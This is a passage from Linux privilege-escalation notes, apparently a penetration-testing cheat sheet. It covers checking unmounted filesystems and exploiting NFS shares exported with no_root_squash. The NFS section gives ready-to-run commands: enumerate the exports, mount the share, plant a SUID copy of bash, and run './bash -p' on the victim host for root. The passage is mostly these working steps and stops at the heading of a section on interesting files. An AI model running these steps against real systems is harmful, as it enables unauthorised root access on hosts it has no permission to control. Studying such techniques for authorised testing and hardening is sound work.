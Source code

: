 ## Unmounted filesystems

* Check for any unmounted filesystems, if any, try to mount again.
```sh
mount -l
cat /etc/fstab
````

### NFS Share
[External Link](https://www.hackingarticles.in/linux-privilege-escalation-using-misconfigured-nfs/ )

* First check if the target machine has any NFS shares
```sh
showmount -e 192.168.1.101
# OR using nmap
nmap -sV --script=nfs-showmount 192.168.1.101
```

* The `/etc/exports` file holds a record for each directory that you expect to share within a network machine. Each record describes how one directory or file is shared.

* An NFS system is considered weak or Misconfigured when the `no_root_squash` option is used. If `no_root_squash` is used, remote root users are able to change any file on the shared file system and leave applications infected by Trojans for other users to inadvertently execute.
```
/home   *(rw,no_root_squash)
```

* Mount the folder:
```sh
# mount -t nfs [ip_address]:/[directory_found_exported] /[local_mount_point]
mount -t nfs 192.168.1.101:/home /tmp/xxx
```

* Exploit
```sh
cd /tmp/xxx
cp /bin/bash .
chmod +s bash
ls -al bash
-rwsr-sr-x  1 root  root  11111240  May 24 07:31  bash
```
  Then when on the host, you can execute
  ```sh
  # on the victim host
  cd /home
  ./bash -p
  ```


---
## Linux Interesting Files and Folders

* See also: https://updatedlinux.wordpress.com/2011/05/12/list-of-important-files-and-directories-in-linux-redhatcentosfedora/
* Check for interesting information:
